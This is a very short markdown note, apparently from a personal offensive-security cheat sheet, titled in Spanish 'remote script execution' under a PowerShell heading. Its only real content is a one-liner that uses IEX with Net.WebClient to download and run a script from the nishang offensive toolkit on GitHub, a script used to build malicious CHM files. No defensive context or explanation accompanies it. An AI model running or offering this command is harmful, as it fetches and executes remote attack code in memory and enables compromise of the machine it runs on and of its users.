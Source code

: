 # Powershell

## Ejecución de scripts remotos

```null
IEX(New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1")
```


